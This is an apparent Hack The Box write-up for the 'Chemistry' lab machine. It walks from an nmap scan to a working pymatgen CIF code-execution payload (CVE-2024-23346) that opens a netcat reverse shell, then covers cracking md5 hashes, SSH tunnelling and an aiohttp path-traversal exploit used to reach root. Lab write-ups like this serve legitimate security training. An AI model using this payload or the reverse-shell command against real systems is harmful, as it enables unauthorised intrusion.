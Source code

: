 <br><br>
**Platform : Hack The Box**

**Box : Chemistry**

**Difficulty : Easy**

**OS : Linux**

<br><br>

Our inital nmap scans reveals two ports open, 22 and 5000.
<br><br>
### `$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)` 
`5000/tcp open upnp?` 
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.`

`<---SNIP--->`


<br><br>
The application provided at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.
<br><br>
![alt text](<Pasted image 20241023002915-1.png>)
<br><br>
Surfing the web we find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All we need to do is craft a malicious .cif file, and then inject the command we want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> data_Example
>
> audit_creation_date            2018-06-08
> 
> _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
> 
> loop
> 
> parent_propagation_vector.id
> 
> _parent_propagation_vector.kxkykz
> 
> k1 [0 0 0]
> 
> 
> _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.15.56 1337 -e sh");0,0,0'
> 
> 
> 
> _space_group_magn.number_BNS  62.448
> 
> _space_group_magn.name_BNS  "P  n'  m  a'  "
> 
> 

<br><br>
Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, we find the right one to be:
<br><br>
> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows us to gain a reverse shell:

<br><br>

![alt text](<Pasted image 20241023004209-1.png>)

<br><br>

Checking the app's directory, we're able to retrieve the .db database that has stored all the *user's md5 hashes*, encoded with the following algorythm, as we can read in the *app.py* file.
<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>

![alt text](<Pasted image 20241023010333-1.png>)

<br><br>

![alt text](<Pasted image 20241023010740-1.png>)

<br><br>

A rapid visit to https://crackstation.net reveals us the cleartext password of rosa's user:

<br><br>

![alt text](<Pasted image 20241102202421.png>)

<br><br>

This is our initial foothold on the machine. We have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>

Running linpeas.sh on the machine, we find out a *service listening on port 8080* of localhost

<br><br>

![alt text](<Pasted image 20241023012150-1.png>)

<br><br>

To enumerate this service, we perform an *SSH tunneling* to our host, using the following command:

<br><br>

`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>

This forwards *our localhost's* port 8080 to port 8080 running on 127.0.0.1 (localhost) remote machine.
A rapid nmap scan shows us that Chemistry is running *aiohttp 3.9.1*

<br><br>

![alt text](<Pasted image 20241023012150-2.png>) 

<br><br>

and this is the first result if i search it on google:

<br><br>

https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. We're going to modify a bit the script to make it run on *our* localhost's port 8080 and try to read *root's flag*. 

<br><br>

![alt text](<Pasted image 20241102200634.png>)

<br><br>

And...

<br><br>

![alt text](<Pasted image 20241102201153.png>)

<br><br>

Success! We have code execution as root user!
